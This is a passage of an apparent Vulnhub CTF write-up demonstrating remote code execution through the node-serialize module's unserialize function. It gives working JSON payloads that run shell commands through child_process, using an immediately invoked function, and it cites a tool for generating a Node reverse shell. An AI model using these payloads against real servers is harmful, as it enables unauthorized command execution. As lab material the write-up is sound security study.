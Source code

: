 Based on the paper mentioned in the Information gathering section, we will **create a test environment to confirm the vulnerablitiy.**

**1.** First install **npm** with `apt install npm`, then the vulnerable **node-serialize** module with `npm install node-serialize`.  
  Note: npm will now warn you the node-serialize was found to contain a serious vulnerability.
  
**2.** Let's create a test object and then pass it to the **serialize** function.
  ```javascript
  var obj = {
rce : function(){
require('child_process').exec('id /', function(error,
stdout, stderr) { console.log(stdout) });
},
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(obj));
```
Saving the above code into a file called serialized.js and executing with `node serialized.js` outputs the serialized object
```javascript
{"rce":"_$$ND_FUNC$$_function(){\nrequire('child_process').exec('id', function(error,\nstdout, stderr) { console.log(stdout) });\n}"}
```
**3.** The main problem now is that even if this object is **unserialized**, nothing will execute unless the function with tag **"rce"** is called. Thankfully for us, Javascript contains a feature called **_Immediately invoked
function expression (IIFE)_** for calling the function. If we use IIFE bracket
() after the function body, the function **will get invoked when the object is
created.**
As such, our **new payload** is
```javascript
{"rce":"_$$ND_FUNC$$_function(){\nrequire('child_process').exec('id', function(error,\nstdout, stderr) { console.log(stdout) });\n}()"}
```
**Note the parentheses in the end.**

**4.** Create another script called **unserialize.js**, emulating the server behaviour with
```javascript
var serialize = require('node-serialize');
var payload = {"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'id \',function(error, stdout, stderr) { console.log(stdout)});}()"};
serialize.unserialize(payload);
```
and run it.

  <img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/4.jpg?raw=true">

**We can clearly see our code got executed!**

**5.** For further testing, there is a very handy tool called <a href="https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py">nodejsshell.py</a>, that will help us create a **reverse shell** which will run in **node**.
For local testing purposes, run it with `python nodejsshell.py 127.0.0.1 1337` to create a payload that will send back a shell at localhost on port 1337. This is the outputted code:
```javascript
```